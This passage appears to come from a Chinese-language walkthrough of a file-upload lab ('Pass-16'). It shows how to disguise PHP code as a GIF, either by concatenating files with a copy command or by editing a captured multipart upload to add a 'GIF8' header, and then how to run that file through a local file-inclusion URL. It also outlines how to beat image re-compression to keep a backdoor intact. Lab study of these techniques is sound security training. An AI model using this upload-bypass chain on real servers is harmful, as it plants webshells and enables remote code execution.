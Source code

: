 常见的文件头参考表（HEX格式） [51CTO博客_](https://blog.51cto.com/u_2982693/3354695)
-  JPEG (jpg)，文件头：FFD8FF
-  PNG (png)，文件头：89504E47
这些都是16进制文件头，可以使用 [From Hex - CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')) 尝试在线解码 ，比如 jpg 解码后是 `ÿØÿ` 但一般这种乱码都不好用，比较推荐利用gif文件，gif的头`47 49 46 38`解码后是 `GIF8`  ，可以轻松使用burp上传。

获取文件头还有一种简单的方式，就是找到一个文件，用记事本打开，然后复制第一个单词之类的

制作图片马 有两种方式，一种是基于真正的图片，一种是抓包修改头部，让服务器以为自己收到的是图片。

### 基于真正的图片法

打开cmd ，准备好 1.gif 和  1.php ，执行下方代码：

```c
copy 1.gif/b+1.php ma.gif
```

制作好`ma.gif`之后，用记事本打开，可以发现，相当于在 原版的 `1.gif` 尾部，追加了 `<?php phpinfo();?>` 。
1. 上传`ma.gif`
2. 获取上传后路径 http://localhost/upload/1020230731134955.gif ， 路径为 `upload/1020230731134955.gif`
3. 与文件包含漏洞 http://localhost/include.php 组合 
4. 访问 http://localhost/include.php?file=upload/1020230731134955.gif 图片马执行。

### 抓包修改头部法

1. 上传 1.php
2. 抓包修改
原包
```
-----------------------------30629768524726476051439622056
Content-Disposition: form-data; name="upload_file"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
```
修改后(修改了文件后缀名和包内容前面部分)

```
-----------------------------30629768524726476051439622056
Content-Disposition: form-data; name="upload_file"; filename="1.gif"
Content-Type: application/octet-stream

GIF8<?php phpinfo();?>
```
3. 截获返回包，搜索`../upload`  搜索到上传位置 ：/upload/8320230731140148.gif
4. 与文件包含漏洞 http://localhost/include.php 组合 
5. 访问 http://localhost/include.php?file=upload/8320230731140148.gif 图片马执行。

## 14-绕过图片二次渲染
Pass-16
> 适用范围：图片上传后会进行压缩，压缩后可能会损坏php后门的情况
> 上传的图片木马需要借助 [文件包含漏洞](http://localhost/include.php) 才能正常运行

解法：先正常上传文件（推荐gif，因为gif压缩比小），然获取压缩后文件，进行对比找到未压缩的部分，用php后门覆盖一小块未压缩部分的文件
